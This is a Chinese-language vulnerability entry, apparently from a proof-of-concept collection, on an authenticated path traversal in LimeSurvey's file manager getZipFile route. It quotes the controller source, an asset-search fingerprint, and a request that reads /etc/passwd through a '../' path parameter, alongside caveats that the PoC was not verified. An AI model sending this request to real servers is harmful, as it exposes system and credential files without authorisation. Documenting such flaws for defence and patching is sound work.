




# LimeSurvey 11455 getZipFile后台读取

## 条目说明

- 对象与具体问题：LimeSurvey；11455 getZipFile后台读取
- 版本、配置及部署条件：<4.1.12+200324声明；PHP进程读权限
- 认证与权限前提：登录后台/文件管理权限
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 给downloadFiles生成zip源码，实际漏洞sink getZipFile/readfile仅图片，宜补关键方法文本
- 保持后台限定不能称匿名；参数path含绝对/穿越需说明基址
- 缺官方公告/固定版来源，版本字符串+构建号不能随意当算术空格

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

### 漏洞描述

LimeSurvey（前称PHPSurveyor）是LimeSurvey团队的一套开源的在线问卷调查程序，它支持调查程序开发、调查问卷发布以及数据收集等功能。 LimeSurvey 4.1.12 + 200324之前版本中的application/controllers/admin/LimeSurveyFileManager.php文件存在路径遍历漏洞。该漏洞源于网络系统或产品未能正确地过滤资源或文件路径中的特殊元素。攻击者可利用该漏洞访问受限目录之外的位置。

### 漏洞影响

```
LimeSurvey < 4.1.12 + 200324
```

### 网络测绘

```
app="LimeSurvey"
```

### 漏洞复现

登录页面



出现漏洞的文件为 `application/controllers/admin/LimeSurveyFileManager.php`



```
public function downloadFiles() {
        App()->loadLibrary('admin.pclzip');
        
        $folder = basename(Yii::app()->request->getPost('folder', 'global'));
        $files = Yii::app()->request->getPost('files');

        $tempdir = Yii::app()->getConfig('tempdir');
        $randomizedFileName = $folder.'_'.substr(md5(time()),3,13).'.zip';
        $zipfile = $tempdir.DIRECTORY_SEPARATOR.$randomizedFileName;
        $arrayOfFiles = array_map( function($file){ return $file['path']; }, $files);
        $archive = new PclZip($zipfile);
        $checkFileCreate = $archive->create($arrayOfFiles, PCLZIP_OPT_REMOVE_ALL_PATH);
        $urlFormat = Yii::app()->getUrlManager()->getUrlFormat();
        $getFileLink = Yii::app()->createUrl('admin/filemanager/sa/getZipFile');
        if($urlFormat == 'path') {
            $getFileLink .= '?path='.$zipfile;
        } else {
            $getFileLink .= '&path='.$zipfile;
        }

        $this->_printJsonResponse(
            [
                'success' => true,
                'message' => sprintf(gT("Files are ready for download in archive %s."), $randomizedFileName),
                'downloadLink' => $getFileLink ,
            ]
        );
    }
```

路由为: `admin/filemanager/sa/getZipFile`, 这里传入参数 path 到方法 `getZipFile()`中



这里通过 readfile方法 读取文件，登录后台后发送请求

```
/index.php/admin/filemanager/sa/getZipFile?path=/../../../../../../../etc/passwd
```




---

> 来源：Threekiii/Awesome-POC
